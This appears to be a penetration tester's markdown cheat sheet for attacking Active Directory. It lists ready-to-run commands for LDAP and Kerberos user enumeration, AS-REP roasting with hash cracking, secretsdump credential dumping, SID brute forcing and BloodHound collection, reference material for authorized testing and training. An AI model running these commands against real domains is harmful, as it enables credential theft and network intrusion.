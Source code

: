 
## AD MindMap
https://www.xmind.net/m/5dypm8/

## Tools
### nmap
- enum ldap properties
```bash
nmap -n -sV --script "ldap* and not brute" -p 389 $ip -Pn
```
- enumerate users
```bash
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='$dom',userdb=/opt/wordlist/list.txt" $ip
```

### enum4linux
- list share, get domain name etc..
```bash
enum4linux -a $ip
```
- enumerate users
```bash
enum4linux -U $ip | grep 'user:'
```

### windapsearch
- enumerate users, domain name
```bash
python3 windapsearch.py --dc-ip $ip --users --full > wdapusers.txt
grep sAMAccountName wdapusers.txt | cut -d " " -f 2 > users.txt
```

### ldapsearch
- enumerate ldap properties
```bash
ldapsearch -x -h $ip -s base
```
- enumerate users
```bash
ldapsearch -h $ip -p 389 -x -b "dc=domain,dc=local"
```
- credential dumping
```bash
ldapsearch -LLL -x -H ldap://$ip -b "dc=domain,dc=local" -s base '(objectclass=*)'
```

### kerbrute
```sh
kerbrute userenum --dc $ip -d $dom /path/to/list.txt
```

### impacket
- check asreproast for a list of user
```sh
GetNPUsers.py domain.tld/ -dc-ip $ip -usersfile /path/to/list.txt

GetNPUsers.py -usersfile /path/to/list.txt -format hashcat -outputfile hashes.asreproast -dc-ip $ip $dom/
# crack the hash with hashcat -m 18200
```
- dump secret
```sh
secretsdump.py -dc-ip 0.0.0.0 domain.tld/username:password@0.0.0.0
```
- brute force domain sids
```bash
lookupsid.py anonymous@$ip
```

### bloodhound
```bash
pip3 install bloodhound
python3 -m bloodhound -d domain.tld -u username -p "password" -gc dc.domain.tld -c all -ns 0.0.0.0
```
